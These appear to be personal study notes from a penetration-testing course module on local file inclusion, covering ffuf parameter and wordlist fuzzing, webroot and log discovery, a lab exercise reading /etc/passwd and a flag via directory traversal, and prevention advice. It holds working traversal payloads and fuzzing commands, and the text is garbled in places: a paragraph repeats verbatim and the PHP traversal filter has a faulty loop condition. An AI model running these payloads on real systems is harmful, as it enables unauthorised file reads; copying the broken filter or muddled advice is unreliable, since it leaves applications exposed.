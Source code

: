 # Autimate scanning:
Its essential to understand how the file inclusion attacks works and how we can manually caft advanced payloads and use custom tech to reach code execution.
This is cause in many case for us to exploit the vulnerability. It may required a custom payload. It may require a custom payload that matches its specific configuratioin.
When dealing with security measures like WAF or firewalls, we have to apply our understading to see how specific paylaod/character is begin to
attempt to craft a custom payload to work around it.
We may not need to manually exploit the LFI vulnerability in many trivial cases, there are many automated methods that can help us quicky to identifying  and exploit the vulnerability.

- Fuzzing Parameters:
The HTML users can use on the web app front-end tend to be properly tested and well secured against different web-app. The page may have other parameters that are not linked to any HTML
form, and hence normal users would never access or unintentuinallity cause harm though. This is why it may be imp to fuzz for parameters, as they tend not be able to be as secure as public ones.

The ataccking Web-app with FUFF module goes into details on how we can fuzz for GET/POST parameters.
Example:
```sh
❯ ffuf -w Dictionaries/SecLists/Discovery/Web-Content/burp-parameter-names.txt  -u '' -fs 2287`
```
Once we identifying and exposed parameters that isn't linked to any form we tested, we can perform all of the LFI tests discussed.
This is the not unique to LFI vulnerability the but also applies to most web vulnerabilities discussed.
> [!TIP]
> For more precise scan, can limit our scan to the most popular LFI parameters found [link](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html#top-25-parameters).

## LFI Wordlist:
So far this module we have been manually crafting our LFI payloads to test for LFI vulnerability. This is cause manaul testing is more reliable and can find LFI vulnerabilities that may not be idendified otherwise, as discussed earlier.
We may want to run a quick test on a parameter too see if it is vulnerable to any common LFI payloads, Which may save us time in web where we need to test for varius vulnerability.

There are a number of [LFI Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for this scan, good wordlist is LFI-jhaddix.txt.
AS it contains varius bypasses and common files, it makes it ez to run several tests at once.
We can use this wordlist to fuzz the [?language] paremeter web have been testing the module:
`ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`

- Fuzzing Server Files:
In addition to fuzzing LFI payloads there are differents servers files that may be helpful in our LFI explotation so it would be helpful to know where such files exist and whether we can read them.
Such files [Server webroot, server configuratioin files, and server logs].
- Server webroot:
We may need to know the full server webroot path to complete our explotation in some cases, if we wanted to locate a file we uploaded, but we cannot research  its /uploads directory though relative path. We may need to figure out the server webroot path that
we can locate our upload files though absoulute path instead of relative path.
We can fuzz for [index.php] file though common webroot paths, Which we can find in this [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) and [Wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)
Example:
`ffuf -w Dictionaries/Dictionaries/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://server:port/index.php?language=/../../FOZZ/index.php' -fs 2287`
As we can see the scan did indeed identify the correct webroot path at [/var/www/html]. We may also use the same LFI-Jhaddix.txt wordlist we used earlier, as it also contains varius payloads.

- Server Logs/Cofiguration:
As we have seen, we need to be able to identify the correct logs dir to be able to perform the logs poisoning attacks we discusses. As we just discussed we may to read the server configuration to able to identify the server webroot path and other imp info.
We may also use the LFI-Jhaddix.txt as it contains many of the server logs and configuration paths we may be interested in.
`ffuf -w LFI-wordlist-Linux:FUZZ -u 'http...FUZZ' -fs 2287`

We can see the scan returned over 60 results, many of Which were not identified with LFI-Jhaddix.txt wordlist, which shows us that a precise scan is imp in certain cases.
[curl http://IP:port/index.php?language../../../ect/apache2/envvarsh]

As we can see the (APACHE_LOG_DIR) variable to /var/log/apache2 and the previus configuration told us that log files are /access.log and /error.log whicj have accessed.

> [!NOTE]
> we can simply use wordlist to find the logs as Wordlist to find the logs, as multiple wordlist we used in this section did shows the log locations, this exercise shows us how we can manually go though identified files, then use the information,
> we find to futher identify more files and imp information. This is quite similar to when we read different files sources in the PMP filters section and such efforts may reveal information about the web app, which can use to futher exploit.

- LFI-Tools:
We can utilize a number of LFI tools to automated much of the process we have been learning, which may save time in some cases, may also miss many vulnerabilities and files we may otherwise identify though manually testing, most common LFI tools are [LFISuites](https://github.com/D35m0nd142/LFISuite), [LFIFreaks](https://github.com/OsandaMalith/LFiFreak) and [Liffy](https://github.com/mzfr/liffy).

- Exercise:
Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt
```sh

ffuf -w Dictionaries/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.48.68:34387/index.php?view=FUZZ' -ic -c -t 200 -fs 1935

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.48.68:34387/index.php?view=FUZZ
 :: Wordlist         : FUZZ: /home/Anchovy/Dictionaries/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1935
________________________________________________

../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 42ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 42ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 42ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 42ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 42ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 44ms]
:: Progress: [922/922] :: Job [1/1] :: 90 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
```
[http://94.237.48.68:34387/index.php?view=../../../../../../../../../../../../../../../../../../../../../../flag.txt]

## File inclusion Prevention:
The module has discussed varius ways to detect and exploit file inclusion vulnerabilities, along different ways. Whith that understading of how to identifying file inclusion vulnerabilities
through penetration testing.

- File Inclusion Prevention:
The most effective thing we can do to reduce file inclusion vulnerabilities is to avoid passing any users-controlled inputs any file inclusion funtions or APIs,
the page should be able to dynamicall load assent on the back-end, with no user interaction. In the first section we discussed different funtions that may be utilize to include other files within
a page and the privilege to each funtions.

This may not be feasible as it may require changing the whole arck of an web app, We should utilize a limited whitelist.
This list need to match with the users to file, or even a static json map names and files that can be matched.

- Preventing Directory Traversal:

If attackers can control the dir, they can escape the web app and attacks something they are more familiar with or use a universal attacks chain.

1. Read /etc/passwd and potentially find SSH Keys or know valid user names for pass sprays.
2. Find other services on the box such as Tomcat and read Tomcat-users.xml file.
3. Discover valid PHP Session Cookie and perform session hijacking.
4. Read current web app configuration and source code.


The best way to prevent directory traversal is to use ur programming built-in tool to pull only the filenames, for example go into ur home dir and use the command [cat .?/.*/.?/etc/passwd].
Now type [php -a] to enter the command Line interpreter and run [echo file_get_contents('.?/.*/.?/etc/passwd');], u'll see PHP does not has the same behaviur with the wildcards, if ur replace ? and *
with . the command will work as expected, this is the demostration there is a edge cases with our above funtions, if we have a PHP  execute bash with the system() funtions, the attacker would be catch
edge cases like this and fix it before it gets exploited in our app.
```php
<?php
while(substr_count($input, '../ ', 0)){
    $input = str_replace('../', '', $input);
};
?>
```

- Web App Firwall(WAF):
The universal way to harden app is to utilize a WAF such as [ModSecurity], when dealing the most imp thing to avoid is false positives and blocking non-malicius requests.
ModSecurity minimize false positives by offering a permissive mode, which will only report things it would blocked. This lets defenders tune the rules to make sure no legitimate request is blocked, if the organization, never
wants to turn the WAF to "block mode".
It's v important to remember that the purpose of hardening is to give the application a stronger exterior shell, so when an attack does happen, the defenders have time to defend. According to the FireEye M-Trends Report of 2020, important to remember that the purpose of hardening is to give the application a stronger exterior shell, so when an attack does happen, the defenders have time to defend. According to the FireEye M-Trends Report of 2020, important to remember that the purpose of hardening is to give the application a stronger exterior shell, so when an attack does happen, the defenders have time to defend.
According to the [FireEye M-Trends Report of 2020].

- Exercise:

1. What is the full path to the php.ini file for Apache?
find / -type f -name php.ini 2>/dev/null
/etc/php/7.4/cli/php.ini
/etc/php/7.4/apache2/php.ini

2.  Edit the php.ini file to block system(), then try to execute PHP Code that uses system. Read the /var/log/apache2/error.log file and fill in the blank: system() has been disabled for ________ reasons.
security

